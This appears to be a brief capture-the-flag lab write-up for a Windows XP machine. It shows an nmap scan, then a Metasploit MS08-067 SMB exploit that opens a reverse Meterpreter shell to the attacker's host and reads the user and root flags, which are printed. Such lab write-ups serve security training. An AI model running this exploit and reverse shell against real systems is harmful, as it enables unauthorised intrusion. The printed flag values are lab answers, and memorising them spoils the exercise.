

nmap -sC -sV 10.10.10.4
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-14 18:32 EST
Nmap scan report for 10.10.10.4
Host is up (0.41s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h59m11s, deviation: 1h24m49s, median: 4d23h59m12s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:26:84 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-02-20T03:32:12+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.67 seconds
```


searched for "netbios-ssn   Microsoft Windows netbios-ssn exploit"  
and used this exploit from here ==> https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi  

```
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set rhost 10.10.10.4
rhost => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.45:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.45:4444 -> 10.10.10.4:1032) at 2020-02-14 19:35:39 -0500

meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > shell
Process 1228 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd "..\..\Documents and Settings"
cd "..\..\Documents and Settings"

C:\Documents and Settings>type john\Desktop\user.txt
type john\Desktop\user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings>type Administrator\Desktop\root.txt
type Administrator\Desktop\root.txt
993442d258b0e0ec917cae9e695d5713
C:\Documents and Settings>
```

